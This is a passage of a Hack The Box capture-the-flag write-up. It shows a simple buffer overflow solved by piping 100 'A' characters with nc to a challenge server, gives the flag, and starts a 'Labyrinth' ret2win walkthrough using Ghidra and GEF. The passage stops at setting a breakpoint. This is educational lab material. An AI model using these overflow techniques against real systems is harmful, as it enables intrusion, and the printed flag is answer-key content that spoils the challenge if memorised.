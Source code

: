 ### Solution

We can fill the buffer with:

```bash
python -c "print(b'A'*100)" | nc 139.59.176.230 31785 
```

This command runs a python line to print 100 A characters and pipes the output to the socket connection.

### Flag

`HTB{b0f_s33m5_3z_r1ght?}`

---

## Labyrinth

### Summary

This challenge is a ret2win buffer overflow. Meaning we have a function that will print the flag but it is never called in the main function, so we have to overwrite the return pointer with the address of the win function to get the flag.

### Solution

Opening the binary in ghidra we can see that the correct door is `69`

```c
  iVar1 = strncmp(16byte_heap_ptr,"69",2);
  if (iVar1 != 0) {
    iVar1 = strncmp(16byte_heap_ptr,"069",3);
    if (iVar1 != 0) goto fail;
  }
```

Then it takes another input using `fgets()` but does not do any checks and prints `[-] YOU FAILED TO ESCAPE` and exists. So obviously we are going to need to supply a payload to jumo to the `escape_plan()` function.

To find the offset I used a GDB with GEF to create a pattern of 100 bytes:

```bash
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Then I set a breakpoint at the return instruction of main:

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401405 <+0>:	push   rbp
   .
   .
   0x0000000000401602 <+509>:	ret
End of assembler dump.
gef➤  b *0x401602
Breakpoint 2 at 0x401602
```
